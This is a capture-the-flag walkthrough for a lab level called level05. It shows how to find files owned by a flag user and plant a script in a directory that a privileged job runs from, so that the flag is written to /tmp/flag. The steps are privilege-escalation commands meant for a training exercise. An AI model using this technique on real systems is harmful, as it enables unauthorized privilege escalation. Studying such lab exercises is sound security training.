 
# Resources for level05

## Walkthrough to capture the flag:

### Step 1: Find files owned by user `flag05`
```bash
find / -user flag05 2>/dev/null
```
> This searches the entire filesystem for files owned by `flag05`, ignoring permission errors.

> Output:
```
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

---

### Step 2: Read the `openarenaserver` script
```bash
cat /usr/sbin/openarenaserver
```
> Reveals that it runs every script inside `/opt/openarenaserver/` with a 5-second time limit, then deletes them.

---

### Step 3: Create a malicious script to capture the flag
```bash
echo "getflag > /tmp/flag" > /opt/openarenaserver/script.sh
```
> We create a script that runs `getflag` and saves the output into `/tmp/flag`.

---

### Step 4: Make the script executable
```bash
chmod +x /opt/openarenaserver/script.sh
```
> Ensures the script can be executed by the `openarenaserver` process.

---

### Step 5: Confirm the script is in the right location
```bash
ls /opt/openarenaserver/script.sh
```
> Verifies the script exists and will be picked up by the vulnerable process.

---

### Step 6: Wait a few seconds, then read the flag
```bash
cat /tmp/flag
```
> The flag will be written here by the privileged process.

---

### Final Flag
Once the script runs, the flag appears in `/tmp/flag`.
